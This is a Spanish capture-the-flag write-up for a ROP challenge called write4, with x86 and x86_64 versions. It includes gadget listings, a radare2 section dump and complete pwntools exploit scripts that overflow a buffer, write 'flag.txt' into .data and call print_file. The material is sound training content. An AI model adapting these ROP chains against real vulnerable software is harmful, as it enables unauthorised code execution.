 # write 4

## x86

![2025-05-30-195441_977x295_scrot](https://github.com/user-attachments/assets/7c0bbc01-b019-48c2-ba22-b86b5ede3a71)

En este reto debemos llamar a `print_file` con un puntero a "flag.txt" como argumento. Pero esa cadena no existe en el binario asi que tendremos que escribirla.

La descripcion nos da una pista de gadgets que podriamos usar. Con ROPGadget extraje estos:
```
0x080485aa : pop edi ; pop ebp ; ret
0x08048543 : mov dword ptr [edi], ebp ; ret
```

El primero almacena valores del stack en `edi` y `ebp` y el segundo copia el contenido de `ebp` a la direccion que contiene `edi`.

Necesitamos encontrar tambien una seccion del binario que sea escribible y que no contenga datos importantes. La seccion `data` nos sirve:
```
[0xf7f873a0]> iS ~w
19  0x00000efc    0x4 0x08049efc    0x4 -rw- INIT_ARRAY  .init_array
20  0x00000f00    0x4 0x08049f00    0x4 -rw- FINI_ARRAY  .fini_array
21  0x00000f04   0xf8 0x08049f04   0xf8 -rw- DYNAMIC     .dynamic
22  0x00000ffc    0x4 0x08049ffc    0x4 -rw- PROGBITS    .got
23  0x00001000   0x18 0x0804a000   0x18 -rw- PROGBITS    .got.plt
24  0x00001018    0x8 0x0804a018    0x8 -rw- PROGBITS    .data
25  0x00001020    0x0 0x0804a020    0x4 -rw- NOBITS      .bss
[0xf7f873a0]> px 16@ 0x0804a018
- offset -  1819 1A1B 1C1D 1E1F 2021 2223 2425 2627  89ABCDEF01234567
0x0804a018  0000 0000 0000 0000 0000 0000 0000 0000  ..............
```

Con esto podemos hacer una funcion para escribir alli, en chunks de 4 bytes porque ese es el tamaño de los registros que usamos:
``` python
data_addr = 0x0804a018
gadget_write1 = 0x080485aa  # pop edi ; pop ebp ; ret
gadget_write2 = 0x08048543  # mov dword ptr [edi], ebp ; ret

def write_in_data(data):
    p = b""
    for i in range(0,len(data),4):
        print("Loop: ",i)
        chunk = data[i:i+4].ljust(4,b"\x00")
        p += p32(gadget_write1)
        p += p32(data_addr + i)
        p += p32(int.from_bytes(chunk,'little'))
        p += p32(gadget_write2)
    return p
```

Primero usamos esto para escribir en memoria y luego llamamos a `print_file`, pasandole como argumento el inicio de nuestra cadena.

Exploit:
``` python
from pwn import *
elf = context.binary = ELF("./write432")
io = process("./write432")

data_addr = 0x0804a018
gadget_write1 = 0x080485aa  # pop edi ; pop ebp ; ret
gadget_write2 = 0x08048543  # mov dword ptr [edi], ebp ; ret

def write_in_data(data):
    p = b""
    for i in range(0,len(data),4):
        print("Loop: ",i)
        chunk = data[i:i+4].ljust(4,b"\x00")
        p += p32(gadget_write1)
        p += p32(data_addr + i)
        p += p32(int.from_bytes(chunk,'little'))
        p += p32(gadget_write2)
    return p

payload = b"A" * 44
payload += write_in_data(b"flag.txt\x00")  # write "flag.txt" en .data
payload += p32(elf.plt['print_file'])  # print_file("flag.txt")
payload += p32(0)                      # ebp
payload += p32(data_addr)              # "flag.txt"



io.recv()
io.sendline(payload)
io.interactive()
```

## x86_64

Un poco de lo mismo, solo que usaremos registros de 64 bits para escribir, asi que ajustamos el bucle a chunks de 8 bytes.

Ademas recordemos que en x86_64 primero se almacenan los argumentos en los registros  en el orden de la ABI y despues se llama a la funcion.

Exploit:
``` python
from pwn import *
elf = context.binary = ELF("./write4")
io = process("./write4")

data_addr = 0x00601028
gadget_write1 = 0x00400690  # pop r14 ; pop r15 ; ret
gadget_write2 = 0x00400628  # mov qword ptr [r14], r15 ; ret
pop_rdi =  0x00400693       # pop rdi; ret

def write_in_data(data):
    p = b""
    for i in range(0,len(data),8):
        print("Loop: ",i)
        chunk = data[i:i+8].ljust(8,b"\x00")
        p += p64(gadget_write1)
        p += p64(data_addr + i)                    #r14
        p += p64(int.from_bytes(chunk,'little'))   #r15
        p += p64(gadget_write2)
    return p

payload = b"A" * 40
payload += write_in_data(b"flag.txt\x00")  # write "flag.txt" en .data
payload += p64(pop_rdi)
payload += p64(data_addr)              # "flag.txt"
payload += p64(elf.plt['print_file'])  # print_file("flag.txt")
print(payload)
io.recv()
io.sendline(payload)
io.interactive()
```


